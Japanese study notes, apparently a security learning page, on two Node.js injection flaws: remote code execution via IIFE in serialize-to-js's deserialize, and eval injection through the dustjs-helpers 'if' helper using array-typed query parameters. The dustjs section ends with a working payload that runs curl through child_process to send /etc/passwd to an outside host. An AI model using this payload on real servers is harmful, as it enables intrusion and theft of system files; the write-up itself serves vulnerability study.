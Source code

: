 ### serialize-to-js (Node.js)
- 概要   
serialize-to-jsモジュールのversion 1.0.0以前で、deserializeメソッドでIIFE形式によるRCEの脆弱性がある。   
https://snyk.io/vuln/npm:serialize-to-js:20170208   
- 例   
以下を挿入するとRCEできる！   
```js
var payload = "{e: function(){ eval('console.log(`exploited`)') }() }";
```
- 対策   
修正されてる。現在のバージョンは
- 根本の原因   
ここに該当のissueがある。   
https://github.com/commenthol/serialize-to-js/commit/1cd433960e5b9db4c0b537afb28366198a319429   
![image](https://user-images.githubusercontent.com/56021519/101511405-fb246280-39bd-11eb-9dd2-468226ae1b2e.png)   
`new Function`によって関数オブジェクトが作成されて、IIFE形式によって作成されたら即実行されてしまう。   
```js
var payload = "{e: function(){ eval('console.log(`exploited`)') }() }";
// もともとの脆弱な実装
var str = (new Function('return ' + payload))();

// 結果
// exploited
```
修正バージョンでは`sanitize()`関数が実装されて、`new`,`eval`,`function`,`(`,`)`のキーワードを構文解析して、あるかどうか調べている。   
![image](https://user-images.githubusercontent.com/56021519/101512873-dda3c880-39be-11eb-8c91-4f159defc157.png)   

## Command Injection
### dustjs-helper (Node.js)
- 概要   
dustというNodeJSのモジュールの中の拡張機能であるdustjs-helper.jsというテンプレートエンジンのための便利メソッドがあるライブラリの中のifメソッドが脆弱だった。   
Javascriptのevalの中にユーザーの入力が入り込んでRCEできてしまう。   
htmlescapeはあるにはあるが、String型にしかチェックがされてないのでArray型にして入力すればHtmlEscape無しに入力できてしまう。   
- 例   

- 発見方法   
`/us/demo/navigation?device=desktop\`(%5c)を入力すると、500 internal errorが発生して、`scripts/node_modules/dustjs-helpers/lib/dust-helpers.js`の`Object.helpers.if`でSyntaxErrorが発生していることがわかる。   
なので、次は`dustjs-helpers/lib/dust-helpers.js`をgithubの公式で読む。   
`/dist`,`/lib`のどっちでも同じっぽい？？   
https://github.com/linkedin/dustjs-helpers/blob/03cd65f51a/dist/dust-helpers.js   
https://github.com/linkedin/dustjs-helpers/blob/03cd65f51a/lib/dust-helpers.js      
![image](https://user-images.githubusercontent.com/56021519/101359047-0eaccc00-38df-11eb-8c19-3e7b986d5b5b.png)   
`if helper`で検索すると該当箇所が見つかり、`eval`があることがわかる。   
if helperの挙動を確認するために、dustjsのgithubの**wiki**の**Dust tutorial**を読む。   
https://github.com/linkedin/dustjs/wiki/Dust-Tutorial#if_condcondition__if_helper_Removed_in_160_release   
見た感じ条件式をevalの中に入れてるっぽいらしい。   
つまり、`\`を入れると、`eval("'desktop\' === 'desktop'")`となってSyntaxErrorとなる。   
![image](https://user-images.githubusercontent.com/56021519/101359923-423c2600-38e0-11eb-875c-ce9b66c0bf69.png)   
任意のコマンドを実行するには`\`以外にも`'`とかも使う必要がある。ので、htmlEscapeする箇所を探して、そこら辺を探す。   
`escape`,`html`とかのキーワードで探すとよさそう？？   
https://github.com/linkedin/dustjs/blob/master/dist/dust-core.js   
どうやら`String`型の時しかEscapeされてないらしい。   
![image](https://user-images.githubusercontent.com/56021519/101360732-69dfbe00-38e1-11eb-9cfd-e98794fedb98.png)   
`?device=desktop`みたいにパラメータを渡す代わりに、`?device[]=1&device[]=2`みたいにして`Array`型でパラメータを渡せばEscapeされずにそのままevalまでたどり着きそう！   
Array型いきなり渡してもいいんだ…！？ふーん。   
`?device[]=x&device[]=y'-require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+artsploit.com')-'`   